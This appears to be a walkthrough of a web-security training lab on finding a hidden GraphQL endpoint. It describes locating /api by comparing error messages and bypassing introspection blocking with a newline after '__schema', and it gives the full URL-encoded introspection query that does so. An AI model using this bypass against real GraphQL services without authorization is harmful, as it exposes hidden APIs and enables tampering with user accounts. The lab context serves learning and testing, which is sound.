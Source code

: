 Note: If you use Burp's built-in functionality which saves all of the accessible queries from the introspection request, we can test these queries easier/quicker.


<br><br>

### Lab: Finding a hidden GraphQL endpoint

Overview:

*  The user management functions for this lab are powered by a hidden GraphQL endpoint. You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.

* To solve the lab, find the hidden endpoint and delete carlos. 



Steps to exploit:

* Find the graphql API endpoint - /api
	
	* This endpoint was found by analyzing the responses the application was returning.  The application responded back with a "Not Found" message for invalid endpoint, while the /api endpoint returned a "Query not present" message.

	* Another thing to note here is that a POST request to the /api endpoint is not allowed, so a GET payload will need to be sent.

* Introspection defenses were bypassed by..

	* GET request to the /api endpoint

	* Right click on the request and select "GraphQL -> Set introspection query" option from the dropdown menu and submit the request

	* Appending a new line (%0a) after the "\_\_schema" keyword

* Query to bypass introspection:


```
/api?query=query+IntrospectionQuery+%7b%0a++++__schema%0a+%7b%0a++++++++queryType+%7b%0a++++++++++++name%0a++++++++%7d%0a++++++++mutationType+%7b%0a++++++++++++name%0a++++++++%7d%0a++++++++subscriptionType+%7b%0a++++++++++++name%0a++++++++%7d%0a++++++++types+%7b%0a++++++++++++...FullType%0a++++++++%7d%0a++++++++directives+%7b%0a++++++++++++name%0a++++++++++++description%0a++++++++++++locations%0a++++++++++++args+%7b%0a++++++++++++++++...InputValue%0a++++++++++++%7d%0a++++++++%7d%0a++++%7d%0a%7d%0a%0afragment+FullType+on+__Type+%7b%0a++++kind%0a++++name%0a++++description%0a++++fields%28includeDeprecated%3a+true%29+%7b%0a++++++++name%0a++++++++description%0a++++++++args+%7b%0a++++++++++++...InputValue%0a++++++++%7d%0a++++++++type+%7b%0a++++++++++++...TypeRef%0a++++++++%7d%0a++++++++isDeprecated%0a++++++++deprecationReason%0a++++%7d%0a++++inputFields+%7b%0a++++++++...InputValue%0a++++%7d%0a++++interfaces+%7b%0a++++++++...TypeRef%0a++++%7d%0a++++enumValues%28includeDeprecated%3a+true%29+%7b%0a++++++++name%0a++++++++description%0a++++++++isDeprecated%0a++++++++deprecationReason%0a++++%7d%0a++++possibleTypes+%7b%0a++++++++...TypeRef%0a++++%7d%0a%7d%0a%0afragment+InputValue+on+__InputValue+%7b%0a++++name%0a++++description%0a++++type+%7b%0a++++++++...TypeRef%0a++++%7d%0a++++defaultValue%0a%7d%0a%0afragment+TypeRef+on+__Type+%7b%0a++++kind%0a++++name%0a++++ofType+%7b%0a++++++++kind%0a++++++++name%0a++++++++ofType+%7b%0a++++++++++++kind%0a++++++++++++name%0a++++++++++++ofType+%7b%0a++++++++++++++++kind%0a++++++++++++++++name%0a++++++++++++%7d%0a++++++++%7d%0a++++%7d%0a%7d
```
